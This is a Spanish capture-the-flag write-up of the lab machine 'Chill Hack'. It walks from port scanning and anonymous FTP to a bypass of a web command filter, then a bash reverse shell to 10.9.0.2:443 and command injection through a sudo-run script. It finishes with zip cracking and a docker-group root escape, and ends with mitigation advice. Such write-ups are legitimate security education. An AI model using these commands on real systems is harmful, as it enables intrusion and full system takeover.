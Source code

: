 ```yaml
---
description: 'Dificultad: fácil'
---
```


# 💻 Chill Hack

## Enumeración

Comenzamos haciendo un escaneo de puertos con **Nmap:**

```bash
map -p- --open --min-rate 5000 -sSVC -Pn -v -oN escaneo.txt 10.10.14.130
```

<figure><img src="../../.gitbook/assets/imagen (41).png" alt="Escaneo Nmap"><figcaption></figcaption></figure>

Como se ve en la imagen la máquina tiene 3 puertos abiertos: **21(FTP)**, **22(SSH)**, **80(HTTP).**

Por el escaneo hecho con nmap vemos el servicio **FTP** tiene habilitado el login "anonymous" y que hay por lo menos un archivo **.txt,** así que entramos y descargamos el archivo **note.txt** a nuestro pc. Vemos que hay dos posibles usuarios: **anurodh** y **apaar.**\


<figure><img src="../../.gitbook/assets/imagen (43).png" alt=""><figcaption></figcaption></figure>

Después nos pasamos al servicio **HTTP,** entramos a la página web e inspeccionamos pero no encontramos nada que nos ayude.

<figure><img src="../../.gitbook/assets/imagen (44).png" alt="Página web"><figcaption></figcaption></figure>

### Fuzzing web

Procedemos a hacer enumeración de directorios con **Gobuster:**

```bash
gobuster dir -u http://10.10.14.130 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

Esto nos da una ruta de interés `/secret`

<figure><img src="../../.gitbook/assets/imagen (65).png" alt="Enumeracion gobuster"><figcaption></figcaption></figure>

Al ir a la ruta, encontramos con un campo en el que podemos introducir comandos, pero aquí es donde aplican las restricciones que se mencionaban en la nota, ya que al querer usar comandos como `ls` o `cat /etc/passwd` aparece un mensaje en rojo.

<div align="left">

<figure><img src="../../.gitbook/assets/imagen (45).png" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

</div>

Intentamos pasar este filtro usando el comando `echo` y confirmamos usuarios mencionados en la nota y algún otro.

```bash
echo $(cat /etc/passwd)
```

<figure><img src="../../.gitbook/assets/imagen (48).png" alt=""><figcaption></figcaption></figure>

## Explotación

Una vez  visto como saltarnos las restricciones, podemos enviarnos una **reverse shell**

```bash
echo $(bash -c  "bash -i >& /dev/tcp/10.9.0.2/443 0>&1")
```

<figure><img src="../../.gitbook/assets/imagen (50).png" alt="reverse shell"><figcaption></figcaption></figure>

Hacemos enumeración de las carpetas de los usuarios entramos a la unica carpeta a la que tenemos acceso `/apaar` entre los archivos encontramos un script en bash llamado `.helpline.sh`, en el contenido del script podemos ver que podríamos ejecutar comandos.

<figure><img src="../../.gitbook/assets/imagen (52).png" alt=""><figcaption></figcaption></figure>

Listamos los comandos que podemos ejecutar como sudo y, por suerte, tenemos permiso ejecutar el script como el usuario **apaar.**

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/imagen (53).png" alt=""><figcaption></figcaption></figure>

## Movimiento Lateral

Ejecutamos el script como el usuario **apaar** y cuando nos pregunte por el mensaje ingresamos `/bin/bash`, con esto logramos migrar de usuario.

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

<figure><img src="../../.gitbook/assets/imagen (54).png" alt=""><figcaption></figcaption></figure>

Una vez dentro del usuario podemos ver la **primer flag** dentro del archivo `local.txt`

<figure><img src="../../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>

Después de estar explorando mucho alguna forma de escalar privilegios o movernos a otro usuario, admito que tuve que buscar alguna pista, la cual encontré en este writeup:

{% embed url="https://hack.xero-sec.com/writeups/tryhackme/chill-hack" %}

Con esta pista, me di cuenta que debía de buscar en `/var/www/files` donde encontramos un archivo **.php,** al parecer debe de haber algo interesante con la imagen `hacker-with-laptop_23-2147985341.jpg`

<figure><img src="../../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

En la ruta de la imagen creamos un server en Python y en la descargamos en nuestra máquina local con **wget**.&#x20;

<figure><img src="../../.gitbook/assets/imagen (68).png" alt="Python server"><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

Una vez descargada la imagen, intentamos ver sus metadatos con **exiftool**, pero hallamos algo de interés. Por lo que usamos **steghide** extraer cual quier información oculta que pueda tener la imagen.

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

<figure><img src="../../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Nos extrajo un archivo **.zip** el cual esta protegido con contraseña , por lo que usamos **JohnTheRipper**, primero extraemos la el **hash** de la contraseña con **zip2john** y después intentamos romper el hash con **John.**

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

Con la contraseña obtenida extraemos el contenido del zip, el cual es un archvio php, en su contenido podemos ver que esta contraseña en base64 del usuario **anurodh.**

<figure><img src="../../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Decodificamos la contraseña y en la máquina victima nos cambiamos al usuario **anurodh**

<div>

<figure><img src="../../.gitbook/assets/imagen (61).png" alt="Bas64 decoded password"><figcaption><p>base64 decode</p></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/imagen (62).png" alt="su anurodh"><figcaption><p>su anurodh</p></figcaption></figure>

</div>

## Escalada de privilegios

Con el comando `id`, vemos el el usuario anurodh pertenece al grupo **docker**

<figure><img src="../../.gitbook/assets/imagen (69).png" alt="id anurodh"><figcaption><p>id anurodh</p></figcaption></figure>

Haciendo una búsqueda rápida en [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), encontramos el siguiente comando para escalar privilegios.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

<figure><img src="../../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

Como **root** podemos ver el contenido de la **segunda flag**.

<figure><img src="../../.gitbook/assets/imagen (63).png" alt="root flag"><figcaption><p>root flag</p></figcaption></figure>

## Recomendaciones de mitigación

1. **Eliminar login anonimo del servicio FTP.**
2. **Configurar reglas de firewall para evitar escaneos automatizados.**
3. **Restringir la ejecución de comandos en el panel web**: Implementar controles estrictos sobre qué comandos pueden ejecutarse desde la interfaz web, limitando el acceso a solo aquellos necesarios para la funcionalidad del sistema. Además, utilizar mecanismos de escape para evitar la inyección de comandos maliciosos, y aplicar roles y permisos adecuados para el uso de esta funcionalidad.
4. **Validar entradas en scripts sensibles**: Modificar el script **helpline.sh** para evitar la ejecución de comandos arbitrarios al usar variables como `$msg`. En su lugar, las entradas de los usuarios deben ser validadas o sanitizadas para evitar inyecciones de comandos. Además, limitar la ejecución del script a usuarios autorizados y revisar las configuraciones de `sudo` para evitar escaladas de privilegios.
5. **Evitar exponer contraseñas**, incluso si están cifradas, y usuarios en scripts, como es el caso de `source_code.php`
6. **Implementar contraseñas más fuertes y seguras**, así como algoritmos de hasheo más robustos
